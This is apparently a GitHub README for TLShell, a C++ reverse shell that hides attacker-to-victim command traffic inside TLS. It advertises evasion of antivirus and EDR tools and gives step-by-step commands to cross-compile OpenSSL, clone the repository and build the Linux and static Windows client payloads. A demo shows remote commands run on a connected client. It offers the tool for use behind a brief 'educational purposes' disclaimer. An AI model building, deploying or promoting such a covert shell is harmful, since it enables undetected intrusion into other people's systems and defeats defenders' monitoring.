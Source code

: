 # TLShell
## A covert reverse shell using TLS
<!-- DESCRIPTION -->
## Description:

A TLS-encrypted reverse shell provides significant security and privacy benefits for communication between an attacker and a compromised system. Traditional reverse shells send data in plaintext, making them vulnerable to detection or interception by network monitoring tools, intrusion detection systems (IDS), or firewalls. With TLS encryption, however, the communication between the attacker and the target machine is encrypted, ensuring confidentiality and reducing the risk of detection by security tools that inspect unencrypted traffic.

## Warning: 

This tool is made for educational purposes only. The developer is not responsible for any misuse or unintended consequences arising from the use of this tool.

<!-- FEATURES -->
## Features:

- Undetectable by most AV/EDR solutions

- Written in C++

- Encrypted Command and Control

## Technical details:

- TLS 1.3 for encryption

**Tip: Replace hardcoded certificate in client code with your own**

<!-- INSTALLATION -->
## Installation:
     sudo apt update
     sudo apt install openssl
     sudo apt install mingw-w64
     sudo apt install libssl-dev
     wget https://www.openssl.org/source/openssl-1.1.1w.tar.gz
     tar -xzf openssl-1.1.1w.tar.gz
     cd openssl-1.1.1w
     ./Configure mingw64 no-shared --cross-compile-prefix=x86_64-w64-mingw32- --prefix=/usr/local/openssl-mingw
     make
     make install
     cd ..
     git clone https://github.com/umutcamliyurt/TLShell.git
     cd TLShell/
     openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.crt -days 36500 -nodes
     g++ server.cpp -o server -lssl -lcrypto
     g++ client.cpp -o client -lssl -lcrypto
     x86_64-w64-mingw32-g++ client_windows.cpp -o client.exe -I"/usr/local/openssl-mingw/Program Files/OpenSSL/include" -L"/usr/local/openssl-mingw/Program Files/OpenSSL/lib" -lssl -lcrypto -lws2_32 -lcrypt32 -static



## Demo:

### Server:
```
nemesis@localhost:~/Projects/TLShell$ ./server 8080
Server listening on port 8080...
Client connected!
Enter command to send to client (type 'exit' to quit): whoami
Client output: nemesis

Enter command to send to client (type 'exit' to quit): ls
Client output: client
client.cpp
image.png
LICENSE
README.md
server
server.cpp
server.crt
server.key

Enter command to send to client (type 'exit' to quit): 
```

### Client:
```
nemesis@localhost:~/Projects/TLShell$ ./client 127.0.0.1 8080
Connected to server 127.0.0.1:8080!
```

## Results:

![screenshot](image.png)
*Image 1: Results for Linux.*

![screenshot](image2.png)
*Image 2: Results for Windows.*

<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.
